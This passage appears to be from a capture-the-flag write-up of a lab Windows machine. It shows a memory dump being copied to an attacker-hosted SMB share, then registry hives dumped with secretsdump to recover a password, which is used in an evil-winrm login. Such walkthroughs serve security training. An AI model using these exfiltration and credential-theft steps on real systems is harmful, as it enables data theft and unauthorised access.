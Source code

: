 This will mount the smb share from linux to windows. Then to confirm I can do this:

```
PS C:\Users\mikasaAckerman\Desktop> Get-PSDrive

Name           Used (GB)     Free (GB) Provider      Root                                                                                                                                                                                 CurrentLocation
----           ---------     --------- --------      ----                                                                                                                                                                                 ---------------
Alias                                  Alias
C                  13.67          1.79 FileSystem    C:\                                                                                                                                                                    Users\Administrator\Documents
Cert                                   Certificate   \
Env                                    Environment
Function                               Function
HKCU                                   Registry      HKEY_CURRENT_USER
HKLM                                   Registry      HKEY_LOCAL_MACHINE
Variable                               Variable
WSMan                                  WSMan
Z          ...3478272.00          0.00 FileSystem    \\10.10.14.72\share
```

As we can see it’s Z drive. I can simply run:

```
Copy-Item -Path "C:\Users\mikasaAckerman\Desktop\MEMORY.7z" -Destination "Z:\"
```

to transfer file to the smb share and we can access it from our kali box.

![Untitled](Freelancer%20ddb658cf8b564ba0b3c161a2c4e057cb/Untitled%2013.png)

I then, used https://github.com/ufrisk/MemProcFS to dump the file and mount it.

I found the SAM, SYSTEM and SECURITY files in registry/hive_files. I Dumped it with secretsdump and I get a password: `PWN3D#l0rr@Armessa199` which is a password for the user `lorra199`

I will login to it using `evil-winrm -i freelancer.htb -u lorra199 -p PWN3D#l0rr@Armessa199`

![Untitled](Freelancer%20ddb658cf8b564ba0b3c161a2c4e057cb/Untitled%2014.png)
